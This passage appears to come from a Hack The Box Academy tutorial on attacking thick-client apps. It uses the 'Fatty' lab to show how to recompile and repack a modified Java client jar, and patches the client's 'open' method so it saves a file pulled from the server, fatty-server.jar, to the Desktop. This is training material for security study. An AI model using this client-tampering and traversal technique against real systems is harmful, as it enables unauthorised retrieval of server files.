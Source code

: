 ``` powershell-session
C:\> javac -cp fatty-client-new.jar fatty-client-new.jar.src\htb\fatty\client\gui\ClientGuiTest.java
```

``` powershell-session
C:\> mkdir raw
C:\> cp fatty-client-new.jar raw\fatty-client-new-2.jar
```

``` powershell-session
C:\> mv -Force fatty-client-new.jar.src\htb\fatty\client\gui\*.class raw\htb\fatty\client\gui\
```

``` powershell-session
C:\> cd raw
C:\> jar -cmf META-INF\MANIFEST.MF traverse.jar .
```

![https://academy.hackthebox.com/storage/modules/113/thick_clients_web/traverse.png](https://academy.hackthebox.com/storage/modules/113/thick_clients_web/traverse.png)

![https://academy.hackthebox.com/storage/modules/113/thick_clients_web/start.png](https://academy.hackthebox.com/storage/modules/113/thick_clients_web/start.png)

``` java
import java.io.FileOutputStream;
<SNIP>
public String open(String foldername, String filename) throws MessageParseException, MessageBuildException, IOException {
    String methodName = (new Object() {}).getClass().getEnclosingMethod().getName();
    logger.logInfo("[+] Method '" + methodName + "' was called by user '" + this.user.getUsername() + "'.");
    if (AccessCheck.checkAccess(methodName, this.user)) {
        return "Error: Method '" + methodName + "' is not allowed for this user account";
    }
    this.action = new ActionMessage(this.sessionID, "open");
    this.action.addArgument(foldername);
    this.action.addArgument(filename);
    sendAndRecv();
    String desktopPath = System.getProperty("user.home") + "\\Desktop\\fatty-server.jar";
    FileOutputStream fos = new FileOutputStream(desktopPath);
    
    if (this.response.hasError()) {
        return "Error: Your action caused an error on the application server!";
    }
    
    byte[] content = this.response.getContent();
    fos.write(content);
    fos.close();
    
    return "Successfully saved the file to " + desktopPath;
}
<SNIP>
```

![https://academy.hackthebox.com/storage/modules/113/thick_clients_web/download.png](https://academy.hackthebox.com/storage/modules/113/thick_clients_web/download.png)
